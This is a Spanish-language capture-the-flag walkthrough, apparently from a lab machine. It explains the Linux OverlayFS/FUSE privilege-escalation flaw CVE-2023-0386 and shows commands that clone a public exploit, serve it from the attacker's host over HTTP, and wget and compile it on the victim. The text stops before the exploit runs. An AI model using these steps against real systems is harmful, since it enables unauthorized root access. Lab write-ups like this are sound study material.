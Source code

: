 En el email se le está comunicando a admin que tienen que actualizar el sistema operativo porque han salido unas cuantas vulnerabilidades en el kernel de linux. Especialmente el de `OverlayFS FUSE`.

Tras una busqueda en google encontramos un artículo que explica como funciona. Podeis echarle un ojo [aquí](https://securitylabs.datadoghq.com/articles/overlayfs-cve-2023-0386).

---

### Explicación

*En resumen dice que en versiones del kernel anteriores a la `6.2`, en un mount del tipo overlay al copiar un archivo desde la montura `overlay` al directorio `upper` no comprueba si el propietario de ese archivo es de la máquina actual o no, por ello si pasamos un archivo con `uid=0` (User ID) aunque el root de la máquina no sea el propietario, se copiará a `upper` con el root de la máquina real como propietario. Para explotar esto haremos un sctipt con el bit de `suid` (que permite que se pueda ejecutar código como el usuario dueño del script)*

*Para crear un archivo con `uid=0` sin ser root, hay que hacer uso de un sistema de archivos virtual como un **FUSE**. Con este podremos simular que un archivo tiene un `uid=0` y un `gid=0` (Group ID).*

*Para entender esto mejor, sería recomendable buscar información sobre que es y como funcionan OverlayFS y FUSE*

---

```
uname -r

5.15.70-051570-generic
```

La versión del kernel es menor que `6.2` por lo que podemos intentar explotar la vulnerabilidad. Vamos a clonarnos un exploit de **GitHub**.

```
git clone https://github.com/sxlmnwb/CVE-2023-0386
```

Para pasarlo a la máquina víctima vamos primero a comprimirlo en zip.

```
zip -r cve.zip CVE-2023-0386
```

Iniciamos un servidor http en python por el puerto 80.

```
python3 -m http.server 80
```

Y nos lo descargamos en la máquina víctima, lo descomprimimos y lo compilamos.

```
wget 10.10.14.48/cve.zip
unzip cve.zip
cd CVE-2023-0386
make all
```
